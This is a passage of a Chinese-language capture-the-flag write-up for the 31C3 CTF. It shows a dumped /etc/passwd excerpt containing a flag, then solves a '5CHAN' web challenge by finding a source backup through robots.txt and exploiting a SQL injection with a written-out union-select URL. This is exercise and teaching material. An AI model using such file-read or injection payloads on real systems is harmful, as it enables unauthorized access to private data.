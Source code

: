 ```
landscape:x:103:110::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
flag:x:1001:1001:31C3_b45fa9e4d5969e3c524bdcde15f84125:/home/flag: 
```

## 0x04 5CHAN

* * *

```
5CHAN? Never heard of this image board, but they have exactly what we need. The picture we’re looking
for is not for public, so can you get it?

http://188.40.18.89/ 
```

首先访问一下 http://188.40.18.89/robots.txt，会发现一个 backup 的目录，下载下来得到源码。

看下代码很容易发现一个 sql 注入漏洞，构造如下的语句，就可以的到 Flag

```
http://188.40.18.89/?page=pic&id=9 union select * from pictures  where id=9 -- a 
```

![enter image description here](img/img2_u13_jpg.jpg)
